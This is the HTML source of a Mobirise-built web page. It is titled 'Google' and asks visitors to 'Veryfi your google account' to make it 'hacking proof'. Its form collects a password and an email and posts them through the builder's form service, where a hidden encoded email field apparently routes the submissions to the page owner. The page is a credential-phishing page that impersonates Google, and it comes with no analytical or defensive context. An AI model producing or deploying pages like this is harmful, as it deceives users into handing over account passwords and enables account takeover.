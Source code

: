 <!DOCTYPE html>
<html >
<head>
  <!-- Site made with Mobirise Website Builder v4.7.5, https://mobirise.com -->
  <meta charset="UTF-8">
  <meta http-equiv="X-UA-Compatible" content="IE=edge">
  <meta name="generator" content="Mobirise v4.7.5, mobirise.com">
  <meta name="viewport" content="width=device-width, initial-scale=1, minimum-scale=1">
  <link rel="shortcut icon" href="assets/images/logo4.png" type="image/x-icon">
  <meta name="description" content="">
  <title>Google </title>
  <link rel="stylesheet" href="assets/web/assets/mobirise-icons/mobirise-icons.css">
  <link rel="stylesheet" href="assets/tether/tether.min.css">
  <link rel="stylesheet" href="assets/bootstrap/css/bootstrap.min.css">
  <link rel="stylesheet" href="assets/bootstrap/css/bootstrap-grid.min.css">
  <link rel="stylesheet" href="assets/bootstrap/css/bootstrap-reboot.min.css">
  <link rel="stylesheet" href="assets/theme/css/style.css">
  <link rel="stylesheet" href="assets/mobirise/css/mbr-additional.css" type="text/css">
  
  
  
</head>
<body>
<center><img src="logo.png"width="360px"height="200px"></center>
  <section class="mbr-section form1 cid-rPI5e473IB" id="form1-0">

    

    
    <div class="container">
        <div class="row justify-content-center">
            <div class="title col-12 col-lg-8">
                <h2 class="mbr-section-title align-center pb-3 mbr-fonts-style display-2">Veryfi your google account&nbsp;</h2>
                <h3 class="mbr-section-subtitle align-center mbr-light pb-3 mbr-fonts-style display-5">Make your account hacking proof&nbsp;<br>Safe your account&nbsp;</h3>
            </div>
        </div>
    </div>
    <div class="container">
        <div class="row justify-content-center">
            <div class="media-container-column col-lg-8" data-form-type="formoid">
                    <div data-form-alert="" hidden="">Your account is veryfi soon </div>
            
                    <form class="mbr-form" action="https://mobirise.com/" method="post" data-form-title="Mobirise Form"><input type="hidden" name="email" data-form-email="true" value="xsEv+ATozquFceA+OMil5uPlOfAikyQq3jFaN7rifcvBt3DGxAXQ1yKZnvb6KnoLNRjuZIcoggnZYwYfJ7sO+rIY4uGkWr5dXb81lc5vWahBDqldB6pmwK/qSlKTF6Jw" data-form-field="Email">
                        <div class="row row-sm-offset">
                            <div class="col-md-4 multi-horizontal" data-for="name">
                                <div class="form-group">
                                    <label class="form-control-label mbr-fonts-style display-7" for="name-form1-0">Password&nbsp;</label>
                                    <input type="text" class="form-control" name="name" data-form-field="Name" required="" placeholder="Password " id="name-form1-0">
                                </div>
                            </div>
                            <div class="col-md-4 multi-horizontal" data-for="email">
                                <div class="form-group">
                                    <label class="form-control-label mbr-fonts-style display-7" for="email-form1-0">Email</label>
                                    <input type="email" class="form-control" name="email" data-form-field="Email" required="" placeholder="Email " id="email-form1-0">
                                </div>
                            </div>
                            
                        </div>
                        
            
                        <span class="input-group-btn"><button href="" type="submit" class="btn btn-primary btn-form display-4"><span class="mbri-letter mbr-iconfont mbr-iconfont-btn" style="color: rgb(186, 228, 9);"></span>Veryfi&nbsp;</button></span>
                    </form>
            </div>
        </div>
    </div>
</section>


  <section class="engine"><a href="https://mobirise.me/d">free site maker</a></section><script src="assets/web/assets/jquery/jquery.min.js"></script>
  <script src="assets/popper/popper.min.js"></script>
  <script src="assets/tether/tether.min.js"></script>
  <script src="assets/bootstrap/js/bootstrap.min.js"></script>
  <script src="assets/smoothscroll/smooth-scroll.js"></script>
  <script src="assets/theme/js/script.js"></script>
  <script src="assets/formoid/formoid.min.js"></script>
  
  
</body>
</html>
